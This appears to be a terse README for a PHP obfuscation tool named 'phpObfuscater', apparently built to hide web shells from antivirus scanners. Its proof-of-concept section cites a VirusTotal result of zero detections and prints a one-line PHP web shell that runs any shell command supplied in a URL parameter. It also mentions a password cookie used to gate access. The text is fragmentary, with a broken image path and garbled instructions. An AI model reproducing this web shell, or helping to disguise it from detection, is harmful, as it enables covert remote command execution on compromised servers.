 # phpObfuscater
hide in bush


add cookie>>   f:[your password]



## PoC
(0/60)
https://www.virustotal.com/gui/file/590c3fc25379fb00102a2ce5af2280070791e45febf9c2f70b0e5d1f920b4bfe/detection
File;

`<?php
echo system($_GET['c']);
?>`
